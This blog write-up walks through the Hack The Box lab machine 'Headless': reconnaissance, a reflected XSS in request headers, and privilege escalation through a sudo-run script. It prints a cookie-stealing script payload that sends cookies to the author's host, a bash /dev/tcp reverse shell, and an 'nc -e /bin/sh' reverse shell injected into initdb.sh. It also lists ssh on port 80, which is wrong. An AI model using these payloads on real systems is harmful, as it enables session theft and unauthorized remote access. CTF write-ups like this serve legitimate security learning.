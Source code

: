 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(118).png)

`Headless` is an easy machine in HTB.

### Recon
### Nmap scan
`Nmap` detects two open ports on headless: ssh (80) and http UPnP(5000). Port 5000  seems to return a web page under construction.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(121).png)

Then added headless to /etc/host and proceeded to navigate to the website `http://headless.htb:5000`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(122).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(150).png)

### Directory Search

I used `ffuf` to search directories in headless.htb.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(123).png)

I got two directories: /dashboard which was restricted and /support. I navigated to /support directory

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(124).png)

The `/support` URI allows payload injection, triggering a hacking protection alert. The application replies with user HTTP request header info, indicating a potential reflected-XSS vulnerability.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(125).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(126).png)

### User flag

### Cookie stealing
I looked for how to steal cookies and found this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e). First, I initiated a Python server on port 1234 using the command:

`python3 -m http.server 1234`

Then, I captured an HTTP request and sent it to Repeater. 
Within Repeater, I injected a cookie-stealing payload into reflected headers like "User-Agent", "Accept" and "message" until I got a response. 

`<script>var i=new Image(); i.src="http://10.10.14.21:1234/?cookie="+btoa(document.cookie);</script>`

I repeated this process until the server intercepted and processed the injected payload.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(130).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(131).png)

After setting the accept field to the payload, my server intercepted the cookie, which was encoded in base64. I then proceeded to decode the cookie to reveal its contents.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(140).png)

Now that I obtained the desired cookie, I returned to `/dashboard` and intercepted the request in Burp Suite. I replaced the original cookie with the one we discovered.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(134).png)

I forwarded the request and got this page.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(133).png)

I attempted to gain access to a shell while being behind a protected page. To do so, I created a payload file named `shell.sh` containing the following code:

`/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.21/1333 0>&1'`

Then set up a listener on port 1333

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(141).png)

With the server still running on port 1234, I requested the payload file `shell.sh` from my machine to the target server.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(138).png)

A shell was finally obtained !!!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(139).png)

A little digging and I found the user flag

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(142).png)

### Privilege Escalation

### Root Flag

I verified the user's permissions. I did this by running the command `sudo -l`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(148).png)

It seemed we had access to the contents of /usr/bin/syscheck. I decided to examine it further by displaying its contents using the 'cat' command.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(149).png)

Noticing that the file initdb.sh was being launched, I decided to insert a payload into that file.
I executed the following commands:

`echo "nc -e /bin/sh 10.10.14.21 1444" > initdb.sh`

`chmod +x initdb.sh`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(144).png)

I needed to open listener on port 1444, as indicated in the payload.And there I gained a root shell !!!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(145).png)

 I proceeded to search for the root flag. And there it was, waiting for me to claim it.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(146).png)

 And that's it for the headless machine. Mission accomplished!



* * *


<footer>
    <p>&copy; 2024 Brenda. All rights reserved.</p>
  </footer>





 













